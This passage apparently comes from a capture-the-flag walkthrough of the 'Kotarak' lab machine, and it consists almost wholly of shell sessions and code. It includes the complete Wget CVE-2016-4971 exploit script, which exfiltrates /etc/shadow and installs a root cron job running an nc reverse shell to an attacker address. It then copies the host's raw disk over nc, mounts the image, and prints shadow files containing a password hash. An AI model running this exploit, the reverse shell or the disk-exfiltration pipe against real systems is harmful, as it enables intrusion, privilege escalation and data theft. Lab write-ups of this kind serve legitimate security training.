
lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:1396339 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1396339 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:101103586 (101.1 MB)  TX bytes:101103586 (101.1 MB)

lxcbr0    Link encap:Ethernet  HWaddr 00:16:3e:00:00:00
          inet addr:10.0.3.1  Bcast:0.0.0.0  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe00:0/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6148 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6147 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:284132 (284.1 KB)  TX bytes:331983 (331.9 KB)

lxdbr0    Link encap:Ethernet  HWaddr 96:cb:68:0b:51:78
          inet6 addr: fe80::1/64 Scope:Link
          inet6 addr: fe80::94cb:68ff:fe0b:5178/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:0 (0.0 B)  TX bytes:470 (470.0 B)

vethQK6AS8 Link encap:Ethernet  HWaddr fe:13:af:b3:a8:89
          inet6 addr: fe80::fc13:afff:feb3:a889/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6148 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6155 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:370204 (370.2 KB)  TX bytes:332631 (332.6 KB)

atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ which authbind
/usr/bin/authbind
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ authbind python -m pyftpdlib -p21 -w &
[1] 81429
atanas@kotarak-dmz:/dev/shm$ /usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2018-06-13 15:22:13] >>> starting FTP server on 0.0.0.0:21, pid=81429 <<<
[I 2018-06-13 15:22:13] concurrency model: async
[I 2018-06-13 15:22:13] masquerade (NAT) address: None
[I 2018-06-13 15:22:13] passive ports: None

atanas@kotarak-dmz:/dev/shm$
```

[`Reverse Shell Cheat Sheet`](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

`exploit.py`

```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..."
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 8002 >/tmp/f \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

```sh
atanas@kotarak-dmz:/dev/shm$ ls -lah
total 8.0K
drwxrwxrwt  2 root   root     80 Jun 13 15:31 .
drwxr-xr-x 20 root   root   3.9K Jun 10 22:37 ..
-rw-rw-r--  1 atanas atanas 2.9K Jun 13 15:31 exploit.py
-rw-rw-r--  1 atanas atanas   70 Jun 13 15:20 .wgetrc
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ jobs
[1]+  Running                 authbind python -m pyftpdlib -p21 -w &
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ authbind python exploit.py
Ready? Is your FTP server running?
[I 2018-06-13 15:33:23] 10.10.10.55:53924-[] FTP session opened (connect)
FTP found open on 10.10.10.55:21. Let's go then

Serving wget exploit on port 80...


We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wgetrc via ftp redirect vuln. It should land in /root

10.0.3.133 - - [13/Jun/2018 15:34:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.10.55:21/.wgetrc

[I 2018-06-13 15:34:01] 10.0.3.133:38830-[] FTP session opened (connect)
[I 2018-06-13 15:34:01] 10.0.3.133:38830-[anonymous] USER 'anonymous' logged in.
[I 2018-06-13 15:34:01] 10.0.3.133:38830-[anonymous] RETR /dev/shm/.wgetrc completed=1 bytes=70 seconds=0.001
[I 2018-06-13 15:34:01] 10.0.3.133:38830-[anonymous] FTP session closed (disconnect).

We have a volunteer requesting /archive.tar.gz by POST :)

Received POST from wget, this should be the extracted /etc/shadow file:

---[begin]---
 root:*:17366:0:99999:7:::
daemon:*:17366:0:99999:7:::
bin:*:17366:0:99999:7:::
sys:*:17366:0:99999:7:::
sync:*:17366:0:99999:7:::
games:*:17366:0:99999:7:::
man:*:17366:0:99999:7:::
lp:*:17366:0:99999:7:::
mail:*:17366:0:99999:7:::
news:*:17366:0:99999:7:::
uucp:*:17366:0:99999:7:::
proxy:*:17366:0:99999:7:::
www-data:*:17366:0:99999:7:::
backup:*:17366:0:99999:7:::
list:*:17366:0:99999:7:::
irc:*:17366:0:99999:7:::
gnats:*:17366:0:99999:7:::
nobody:*:17366:0:99999:7:::
systemd-timesync:*:17366:0:99999:7:::
systemd-network:*:17366:0:99999:7:::
systemd-resolve:*:17366:0:99999:7:::
systemd-bus-proxy:*:17366:0:99999:7:::
syslog:*:17366:0:99999:7:::
_apt:*:17366:0:99999:7:::
sshd:*:17366:0:99999:7:::
ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::

---[eof]---


Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [13/Jun/2018 15:36:01] "POST /archive.tar.gz HTTP/1.1" 200 -

File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :)
```

```sh
root@kali:~/kotarak# nc -nlvp 8002
listening on [any] 8002 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 41818
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -lah
total 36K
drwx------  2 root root 4.0K Jun 13 19:36 .
drwxr-xr-x 21 root root 4.0K Jun 11 02:37 ..
-rw-------  1 root root   65 Sep 19  2017 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 20  2017 root.txt
-rw-r--r--  1 root root   75 Jul 19  2017 .selected_editor
-rw-------  1 root root 5.2K Aug 29  2017 .viminfo
# cat root.txt
950d1425795dfd38272c93ccbb63ae2c
#
```

###### Container root

```sh
atanas@kotarak-dmz:/dev/shm$ hostname
kotarak-dmz
atanas@kotarak-dmz:/dev/shm$ ps -aux | grep lxc
root        868  0.0  0.1 234764  1456 ?        Ssl  Jun10   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
lxc-dns+   1330  0.0  0.0  52868   396 ?        S    Jun10   0:00 dnsmasq -u lxc-dnsmasq --strict-order --bind-interfaces --pid-file=/run/lxc/dnsmasq.pid --listen-address 10.0.3.1 --dhcp-range 10.0.3.2,10.0.3.254 --dhcp-lease-max=253 --dhcp-no-override --except-interface=lo --interface=lxcbr0 --dhcp-leasefile=/var/lib/misc/dnsmasq.lxcbr0.leases --dhcp-authoritative
root       1390  0.0  0.2  54488  2504 ?        Ss   Jun10   0:00 [lxc monitor] /var/lib/lxc kotarak-int
atanas    81594  0.0  0.0  14224   988 pts/1    S+   15:40   0:00 grep --color=auto lxc
atanas@kotarak-dmz:/dev/shm$ groups
atanas adm disk cdrom dip backup plugdev lpadmin sambashare
atanas@kotarak-dmz:/dev/shm$
```

```sh
# hostname
kotarak-int
# ps -aux | grep lxc
root        182  0.0  0.2  15756  2256 lxc/console Ss+ Jun11   0:00 /sbin/agetty --noclear --keep-baud console 115200 38400 9600 vt220
root      11693  0.0  0.0  14224   948 ?        S    19:40   0:00 grep lxc
#
```

```sh
atanas@kotarak-dmz:/dev/shm$ ls /dev/sd*
/dev/sda  /dev/sda1  /dev/sda2  /dev/sda5
atanas@kotarak-dmz:/dev/shm$
atanas@kotarak-dmz:/dev/shm$ ls -lah /dev/sd*
brw-rw---- 1 root disk 8, 0 Jun 10 22:37 /dev/sda
brw-rw---- 1 root disk 8, 1 Jun 10 22:37 /dev/sda1
brw-rw---- 1 root disk 8, 2 Jun 10 22:37 /dev/sda2
brw-rw---- 1 root disk 8, 5 Jun 10 22:37 /dev/sda5
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
udev on /dev type devtmpfs (rw,nosuid,relatime,size=479584k,nr_inodes=119896,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=99828k,mode=755)
/dev/mapper/Kotarak--vg-root on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset,clone_children)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,relatime)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
debugfs on /sys/kernel/debug type debugfs (rw,relatime)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=35,pgrp=1,timeout=0,minproto=5,maxproto=5,direct)
fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
/dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
tmpfs on /run/lxcfs/controllers type tmpfs (rw,relatime,size=100k,mode=700)
pids on /run/lxcfs/controllers/pids type cgroup (rw,relatime,pids)
blkio on /run/lxcfs/controllers/blkio type cgroup (rw,relatime,blkio)
memory on /run/lxcfs/controllers/memory type cgroup (rw,relatime,memory)
devices on /run/lxcfs/controllers/devices type cgroup (rw,relatime,devices)
hugetlb on /run/lxcfs/controllers/hugetlb type cgroup (rw,relatime,hugetlb)
freezer on /run/lxcfs/controllers/freezer type cgroup (rw,relatime,freezer)
cpu,cpuacct on /run/lxcfs/controllers/cpu,cpuacct type cgroup (rw,relatime,cpu,cpuacct)
cpuset on /run/lxcfs/controllers/cpuset type cgroup (rw,relatime,cpuset,clone_children)
perf_event on /run/lxcfs/controllers/perf_event type cgroup (rw,relatime,perf_event)
net_cls,net_prio on /run/lxcfs/controllers/net_cls,net_prio type cgroup (rw,relatime,net_cls,net_prio)
name=systemd on /run/lxcfs/controllers/name=systemd type cgroup (rw,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
lxcfs on /var/lib/lxcfs type fuse.lxcfs (rw,nosuid,nodev,relatime,user_id=0,group_id=0,allow_other)
tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=99828k,mode=700,uid=1000,gid=1000)
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ mount | grep -v "lxc"
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
udev on /dev type devtmpfs (rw,nosuid,relatime,size=479584k,nr_inodes=119896,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run type tmpfs (rw,nosuid,noexec,relatime,size=99828k,mode=755)
/dev/mapper/Kotarak--vg-root on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset,clone_children)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,relatime)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
debugfs on /sys/kernel/debug type debugfs (rw,relatime)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=35,pgrp=1,timeout=0,minproto=5,maxproto=5,direct)
fusectl on /sys/fs/fuse/connections type fusectl (rw,relatime)
/dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=99828k,mode=700,uid=1000,gid=1000)
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ ls -l /dev/mapper/Kotarak--vg-root
lrwxrwxrwx 1 root root 7 Jun 10 22:37 /dev/mapper/Kotarak--vg-root -> ../dm-0
atanas@kotarak-dmz:/dev/shm$
```

```sh
atanas@kotarak-dmz:/dev/shm$ cd /dev/
atanas@kotarak-dmz:/dev$ file dm-0
dm-0: block special (252/0)
atanas@kotarak-dmz:/dev$ strings dm-0 | less
```

```sh
atanas@kotarak-dmz:/dev$ dd if=dm-0 | gzip -1 - | nc 10.10.14.16 8899
14680064+0 records in
14680064+0 records out
7516192768 bytes (7.5 GB, 7.0 GiB) copied, 1542.09 s, 4.9 MB/s
atanas@kotarak-dmz:/dev$
```

```sh
root@kali:~/kotarak# nc -nlvp 8899 > disk.img.gz
listening on [any] 8899 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.55] 42442
root@kali:~/kotarak# du -hs disk.img.gz
2.2G	disk.img.gz
root@kali:~/kotarak#
```

```sh
root@kali:~/kotarak# gunzip disk.img.gz
root@kali:~/kotarak# file disk.img
disk.img: Linux rev 1.0 ext4 filesystem data, UUID=efb44a28-8edc-4d40-aca3-81e57d58d759 (needs journal recovery) (extents) (large files) (huge files)
root@kali:~/kotarak# du -hs disk.img
7.1G	disk.img
root@kali:~/kotarak#
```

```sh
root@kali:~/kotarak# mount disk.img /mnt/
root@kali:~/kotarak# cd /mnt/
root@kali:/mnt# ls -lah
total 128K
drwxr-xr-x  27 root root 4.0K Aug 29  2017 .
drwxr-xr-x  24 root root 4.0K May 31 19:21 ..
drwxr-xr-x   3 root root 4.0K Jul 21  2017 backups
drwxr-xr-x   2 root root 4.0K Jul  9  2017 bin
drwxr-xr-x   2 root root 4.0K Jul  9  2017 boot
drwxr-x---   3 root root 4.0K Jul 19  2017 .config
drwxr-xr-x   4 root root 4.0K Jul 21  2017 dev
drwxr-xr-x 105 root root 4.0K Jan 18 09:07 etc
drwxr-xr-x   4 root root 4.0K Jul 21  2017 home
drwxr-xr-x  24 root root 4.0K Jul 21  2017 lib
drwxr-xr-x   2 root root 4.0K Jul 21  2017 lib32
drwxr-xr-x   2 root root 4.0K Jul 21  2017 lib64
drwxr-xr-x   2 root root 4.0K Jul 21  2017 libx32
drwx------   2 root root  16K Jul  9  2017 lost+found
drwxr-xr-x   4 root root 4.0K Jul 21  2017 media
drwxr-xr-x   2 root root 4.0K Jul 19  2016 mnt
drwxr-xr-x   4 root root 4.0K Jul 21  2017 opt
drwxr-xr-x   2 root root 4.0K Jul 21  2017 proc
drwxrwxrwx   6 root root 4.0K Sep 19  2017 root
drwxr-xr-x   2 root root 4.0K Jul  9  2017 run
drwxr-xr-x   2 root root  12K Jul 21  2017 sbin
drwxr-xr-x   2 root root 4.0K Jul 21  2017 snap
drwxr-xr-x   2 root root 4.0K Jul 21  2017 srv
drwxr-xr-x   2 root root 4.0K Jul 21  2017 sys
drwxrwxrwt  10 root root 4.0K Jun 13 15:45 tmp
drwxr-xr-x  13 root root 4.0K Jul 21  2017 usr
drwxr-xr-x  15 root root 4.0K Jul 21  2017 var
lrwxrwxrwx   1 root root   29 Aug 29  2017 vmlinuz -> boot/vmlinuz-4.4.0-87-generic
lrwxrwxrwx   1 root root   29 Jul  9  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-83-generic
root@kali:/mnt# cd root/
root@kali:/mnt/root# ls -l
total 8
-rw------- 1 1000 root 333 Jul 20  2017 app.log
-rw------- 1 1000 root  66 Aug 29  2017 flag.txt
root@kali:/mnt/root# cat flag.txt
Getting closer! But what you are looking for can't be found here.
root@kali:/mnt/root# cd ../var/lib/lxc
root@kali:/mnt/var/lib/lxc# ls -lah
total 12K
drwx------  3 root root 4.0K Jul 21  2017 .
drwxr-xr-x 51 root root 4.0K Jul 21  2017 ..
drwxrwx---  3 root root 4.0K Jul 21  2017 kotarak-int
root@kali:/mnt/var/lib/lxc# cd kotarak-int/
root@kali:/mnt/var/lib/lxc/kotarak-int# ls -l
total 8
-rw-r--r--  1 root root  826 Jul 19  2017 config
drwxr-xr-x 21 root root 4096 Jun 10 22:37 rootfs
root@kali:/mnt/var/lib/lxc/kotarak-int# cd rootfs/
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs# ls -l
total 76
drwxr-xr-x  2 root root 4096 Jul 21  2017 bin
drwxr-xr-x  2 root root 4096 Jul 21  2017 boot
drwxr-xr-x  3 root root 4096 Jul 21  2017 dev
drwxr-xr-x 68 root root 4096 Jul 21  2017 etc
drwxr-xr-x  3 root root 4096 Jul 21  2017 home
drwxr-xr-x 11 root root 4096 Jul 21  2017 lib
drwxr-xr-x  2 root root 4096 Jul 21  2017 lib64
drwxr-xr-x  2 root root 4096 Jul 21  2017 media
drwxr-xr-x  2 root root 4096 Jul 21  2017 mnt
drwxr-xr-x  2 root root 4096 Jul 21  2017 opt
drwxr-xr-x  2 root root 4096 Jul 21  2017 proc
drwx------  2 root root 4096 Jun 13 15:40 root
drwxr-xr-x  7 root root 4096 Jul 21  2017 run
drwxr-xr-x  2 root root 4096 Jul 21  2017 sbin
drwxr-xr-x  2 root root 4096 Jul 21  2017 srv
drwxr-xr-x  2 root root 4096 Jul 21  2017 sys
drwxrwxrwt  7 root root 4096 Jun 13 15:54 tmp
drwxr-xr-x 10 root root 4096 Jul 21  2017 usr
drwxr-xr-x 11 root root 4096 Jul 21  2017 var
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs# cd root/
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs/root# ls -l
total 4
-rw-r--r-- 1 root root 33 Jul 19  2017 root.txt
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs/root# cat root.txt
950d1425795dfd38272c93ccbb63ae2c
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs/root#
```

```sh
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs/root# cat ../etc/shadow
root:*:17366:0:99999:7:::
daemon:*:17366:0:99999:7:::
bin:*:17366:0:99999:7:::
sys:*:17366:0:99999:7:::
sync:*:17366:0:99999:7:::
games:*:17366:0:99999:7:::
man:*:17366:0:99999:7:::
lp:*:17366:0:99999:7:::
mail:*:17366:0:99999:7:::
news:*:17366:0:99999:7:::
uucp:*:17366:0:99999:7:::
proxy:*:17366:0:99999:7:::
www-data:*:17366:0:99999:7:::
backup:*:17366:0:99999:7:::
list:*:17366:0:99999:7:::
irc:*:17366:0:99999:7:::
gnats:*:17366:0:99999:7:::
nobody:*:17366:0:99999:7:::
systemd-timesync:*:17366:0:99999:7:::
systemd-network:*:17366:0:99999:7:::
systemd-resolve:*:17366:0:99999:7:::
systemd-bus-proxy:*:17366:0:99999:7:::
syslog:*:17366:0:99999:7:::
_apt:*:17366:0:99999:7:::
sshd:*:17366:0:99999:7:::
ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::
root@kali:/mnt/var/lib/lxc/kotarak-int/rootfs/root#
```